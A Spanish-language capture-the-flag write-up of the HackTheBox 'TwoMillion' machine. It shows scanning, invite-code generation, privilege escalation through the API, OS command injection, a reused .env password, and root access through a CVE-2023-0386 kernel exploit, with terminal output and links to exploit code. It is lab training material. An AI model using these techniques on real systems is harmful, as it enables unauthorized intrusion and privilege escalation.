La `Two Million` es una maquina de nivel facil que fue lanzada para celebrar el logro de los 2 millones de usuarios en la plataforma de **Hackthebox**. Esta máquina contiene el antiguo desafío que tenías que realizar para obtener un código de invitación, con el cual te podias registrar en la plataforma.

Despues de superar el desafio y registrarte con exito y elevar el usuario en administrador Con privilegios de administrador, es posible llevar a cabo una inyección de comandos en la generación de archivos VPN. Posteriormente, se puede explotar completamente la shell al enumerar el archivo de variables de entorno, que puede ser utilizado de manera indebida para reutilizar contraseñas. Finalmente, para obtener acceso como root, se descubre que el kernel del sistema está obsoleto, lo que conduce a la vulnerabilidad CVE-2023–0386.


# Metodología 
- Escaneo de red
- Enumeración 
  - Enumeración del servicio HTTP en el puerto 80
  - Enumeracion de dominio

- Explotación
  - Obtener código de invitación
  - Elevar los privilegios del usuario a un usuario administrador
  - OS injection
  - Obtener una shell

- Escalar Privilegios
  - Enumeración de .env 
  - CVE-2023-0386

# Walkthrough

## Escaneo de red

Iniciamos haciendo uso de la herramienta nmap, donde nos encontraremos que tenemos dos puertos abiertos.

```shell
❯ nmap -p22,80 -sC -sV -Pn -n 10.10.11.221 -oN servicesScan

```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Tambien un dominio `2million.htb` que debemos de agregar al `/etc/hosts` 


## Enumeración 

### Enumeración del puerto 80 y dominio



Tenemos un login, pero antes debemos de tener el codigo de invitación para registrarnos






## Explotación

### Obtención del codigo de invitación

Para obtener el código de invitación, debemos buscar una función en javascript `makeInviteCode()` y ejecutar desde la consola del navegador.



Al realizar esto, nos dara un texto el cual esta cifrado con `rot13`. Facilmente podemos ir a google y buscar alguna web para descifrar.

```
Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr"
decode rot13
In order to generate the invite code, make a POST request to /api/v1/invite/generate"
```
Teniendo el texto que se puede leer, podemos hacer la actividad que nos indica:

```
❯ curl -X POST 'http://2million.htb/api/v1/invite/generate'
{"0":200,"success":1,"data":{"code":"RE5RMFgtWDlPRTItOEFCQkMtSlE5NUc=","format":"encoded"}}%   
```
Una vez obtenido el código de invitación podemos registrarnos, pero antes debemos hacer uso de `base64 -d` para obtener el codigo, debido a que nos entregan en formato de base64

```
❯ echo "RE5RMFgtWDlPRTItOEFCQkMtSlE5NUc="| base64 -d; echo
DNQ0X-X9OE2-8ABBC-JQ95G
```



```
Credenciales
seven@gmail.com: seven
```

Al enumerar los directorios nos encontramos que hace una petición a una api y podemos ver las rutas en la siguiente imagen



Al interceptar las peticiones de /access y cambiar a `POST` y enviar la petición nos da un error de `Content-Type` 



Luego de agregar el `Content-Type` nos dara error y pedira el `email` y `ìs_admin`  



En la siguiente endpoint se puede verificar si un usuario tiene privilegios de administrador





Ahora vamos a generar una vpn como administradores

Tambien agregaremos el `Content-Type` y el email del suaurio


Podemos ver que estamos en una web con php



Al se una `api` y estar con `php` vamos a intentar un OS injection

En la petición del json podemos inyectar comandos, y asi podemos tener acceso a la maquina victima.



## Escalar Privilegios

### www-data 

Para escalar privilegios realizamos una enumeraciíon basica de variables de entorno y encontramos las credenciales
```
-rw-r--r-- 1 root root 87 Jun  2 18:56 /var/www/html/.env                                                                                                                            
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

### admin
Una vez como el usuario `admin` encontramos que la versión del kernel es vulnerable



### Root 
#### CVE-2023-0386

Vamos a descargarnos los explois de los sigueintes links y subir el exploit y ejecutar 

- [https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits](https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits)
- [https://github.com/sxlmnwb/CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386)

#### Terminal 1

```shell
admin@2million:/tmp/tmp.jrzrl3YKBU/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601

```

#### Terminal 2

```shell
admin@2million:/tmp/tmp.jrzrl3YKBU/CVE-2023-0386$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Oct  4 02:47 .
drwxr-xr-x 6 root   root     4096 Oct  4 02:47 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

```shell
root@2million:/tmp/tmp.jrzrl3YKBU/CVE-2023-0386# whoami
root
```

pwned :P

## Referencias:

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

- [https://owasp.org/Top10/A03_2021-Injection/](https://owasp.org/Top10/A03_2021-Injection/)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
